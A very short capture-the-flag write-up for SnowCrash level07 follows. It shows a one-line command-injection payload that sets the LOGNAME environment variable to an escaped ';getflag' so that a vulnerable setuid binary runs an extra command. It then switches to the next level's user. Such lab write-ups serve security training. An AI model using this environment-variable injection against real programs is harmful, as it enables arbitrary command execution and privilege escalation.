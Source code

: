 # level07

Environment variable exploit
```bash
level07@SnowCrash:~ $ env LOGNAME=\;getflag ./level07
#OUTPUT
level07@SnowCrash:~ $ su level08
```
